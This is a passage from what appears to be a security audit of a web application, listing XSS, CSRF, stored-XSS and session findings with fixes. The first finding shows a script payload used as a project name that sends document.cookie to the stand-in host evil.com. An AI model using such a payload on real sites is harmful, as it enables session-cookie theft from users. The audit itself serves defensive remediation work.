 **Exploit Example:**
```javascript
// Attacker creates project with name:
<script>fetch('https://evil.com/steal?data='+document.cookie)</script>
```

**Fix Required:**
```javascript
// Replace innerHTML with textContent
element.textContent = userInput;
// OR use HTML escaping
element.innerHTML = escapeHtml(userInput);
```

### 3. Missing CSRF Protection (CRITICAL)
**CVE Score:** 8.1 | **OWASP:** A01:2021 – Broken Access Control  
**Files:** All forms in HTML files  
**Risk:** Unauthorized actions on behalf of users

**Vulnerable Forms:**
- Login/Register forms
- Password reset forms
- Project/Sheet creation forms
- Process management forms

**Attack Vector:** Malicious websites can perform actions on behalf of authenticated users

**Fix Required:**
```html
<input type="hidden" name="csrf_token" value="{{csrf_token}}">
```

### 4. Stored XSS via Database (CRITICAL)
**CVE Score:** 8.8 | **OWASP:** A03:2021 – Injection  
**Files:** All data rendering locations  
**Risk:** Persistent XSS affecting all users

**Vulnerable Data:**
- Project names and descriptions
- Sheet names and descriptions
- Process data and custom fields
- User input in JSONB fields

**Attack Chain:**
1. Attacker creates malicious project/process
2. Script stored in database
3. Executed when other users view the data

### 5. Session Management Vulnerabilities (CRITICAL)
**CVE Score:** 7.5 | **OWASP:** A07:2021 – Identification and Authentication Failures  
**Files:** index.html, authentication logic  
**Risk:** Session hijacking, privilege escalation

**Issues:**
- No session timeout
- No session invalidation on password change
- No concurrent session management
- Weak session validation

---
